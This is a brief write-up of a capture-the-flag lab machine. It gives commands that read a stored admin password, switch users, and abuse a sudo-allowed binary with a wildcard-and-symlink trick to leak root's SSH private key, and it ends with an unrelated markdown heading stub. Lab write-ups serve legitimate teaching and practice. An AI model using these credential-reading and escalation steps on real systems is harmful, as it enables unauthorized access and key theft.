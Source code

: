 <img src='/images/HTB_Usage/Screenshot 2024-05-22 103403.png'>

Just type `cat .monitrc` and you will find the admin password.

Type `su xander` and enter the password.

Type `sudo –l` > and type `strings /usr/bin/usage_management`

Hey, the root.txt file is located in /var/www/html. But the permissions are denied. 

I ssh’ed into the user xander with `ssh xander@10.10.11.18`

`cd /var/www/html` > `touch @id_rsa`

`ln -s /root/.ssh/id_rsa id_rsa`

Type: `sudo /usr/bin/usage_management` this will give you the private key. 

You can get the flag in lots of ways. Since it’s really cool to take a screenshot and enter it in as the root user so I read the SSH key to login to the system.



Markdown guide for myself :)
======

Aren't headings cool?
------
